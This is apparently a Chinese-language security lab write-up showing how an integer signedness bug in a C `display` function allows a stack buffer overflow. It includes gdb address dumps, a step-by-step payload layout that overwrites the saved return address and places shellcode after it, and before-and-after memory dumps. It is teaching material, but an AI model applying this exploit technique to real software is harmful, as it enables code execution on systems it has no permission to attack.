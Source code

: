 ## Main Idea

我们看看函数`display`完成了什么工作：首先读取文件的第一个字节，这个字节表示接下来要从文件中读取的字节数。接下来对刚刚读取的字节数进行检查，如果读取失败，或者读取的字节太多那么直接退出。最后，如果通过检查，那么就从文件中读取对应的字节数并输出至标准输出。

在程序`display`中，要读取的字节数`size`被定义为一个8位的有符号数，而函数`fread`中，形参`size`的类型为无符号数。如果我们输入`size`为-1，即`0xff`，它可以通过检查。但是它被传入`fread`后，就被解读为255，使得我们构造的payload足够写入缓冲区。

## Magic Numbers

与 Remus 类似，需要获取`buf`和`display`的返回地址：
```
(gdb) p &msg
$3 = (char (*)[128]) 0xffffd9c8
(gdb) i f
Stack level 0, frame at 0xffffda60:
 eip = 0x80491ee in display (telemetry.c:11); saved eip = 0x80492bd
 called by frame at 0xffffda90
 source language c.
 Arglist at 0xffffda58, args: path=0xffffdc23 "navigation"
 Locals at 0xffffda58, Previous frame's sp is 0xffffda60
 Saved registers:
  ebp at 0xffffda58, eip at 0xffffda5c
```

## Exploit Structure

根据获取的信息，很容易构造出payload：

1. 在文件头插入字节`\xff`。
2. 用字符覆盖从`buf`到`eip`之间的区域。
3. 覆盖旧的返回地址`eip`，由于我们直接把SHELLCODE放在`eip`后面，因此新的返回地址为`eip + 4`，即`0xffffda60`。
4. 最后，直接在`eip`之后插入SHELLCODE。

## Exploit GDB Output

进行爆破前：
```
(gdb) x/40x 0xffffd9c8
0xffffd9c8:     0x00000001      0x00000000      0x00000002      0x00000000
0xffffd9d8:     0x00000000      0x00000000      0x00000000      0x08048034
0xffffd9e8:     0x00000020      0x00000008      0x00001000      0x00000000
0xffffd9f8:     0x00000000      0x0804904a      0x00000000      0x000003ea
0xffffda08:     0x000003ea      0x000003ea      0x000003ea      0xffffdbfb
0xffffda18:     0x178bfbff      0x00000064      0x00000000      0x00000000
0xffffda28:     0x00000000      0x00000000      0x00000000      0x00000001
0xffffda38:     0x00000000      0xffffdbeb      0x00000002      0x00000000
0xffffda48:     0x00000000      0x00000000      0x00000000      0xffffdfe2
0xffffda58:     0xffffda78      0x080492bd      0xffffdc23      0x00000000
```

进行爆破后：
```
(gdb) x/40x &msg
0xffffd9c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd9d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd9e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd9f8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffda08:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffda18:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffda28:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffda38:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffda48:     0x000000d2      0x41414141      0x41414141      0x41414141
0xffffda58:     0x41414141      0xffffda60      0xcd58326a      0x89c38980
```